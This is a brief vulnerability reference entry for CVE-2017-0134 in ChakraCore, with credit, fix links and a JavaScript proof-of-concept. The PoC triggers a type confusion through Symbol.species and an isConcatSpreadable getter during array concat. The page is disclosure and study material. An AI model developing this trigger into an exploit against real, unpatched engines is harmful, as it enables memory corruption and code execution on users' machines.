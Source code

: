 # CVE-2017-0134

- Fix: Mar 2017
- Credit: Jordan Rabet, Microsoft Offensive Security Research Team

## PoC

PoC from @edoba

```javascript
var a1 = [];
for (var i = 0; i < 0x100; i++) {
    a1[i] = i;
}
var a2 = [lower(addr), upper(addr)];
var c = new Function();
c[Symbol.species] = function() {
    new_array = [];
    return new_array;
};
a1.constructor = c;
a2.__defineGetter__(Symbol.isConcatSpreadable, function () {
    new_array[0] = {};
    return true;
});
var res = a1.concat(a2);
res[0x100/2];
```

## Reference

- [Microsoft (MS17-007)](https://technet.microsoft.com/en-us/library/security/ms17-007.aspx)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/aba05079c1cbb4b09039655a3e4195578f7c5031)
- [Plaid CTF 2017 (1)](https://lokalhost.pl/ctf/pcft2017_chakra.js)
- [Plaid CTF 2017 (2)](https://gist.github.com/eboda/18a3d26cb18f8ded28c899cbd61aeaba)
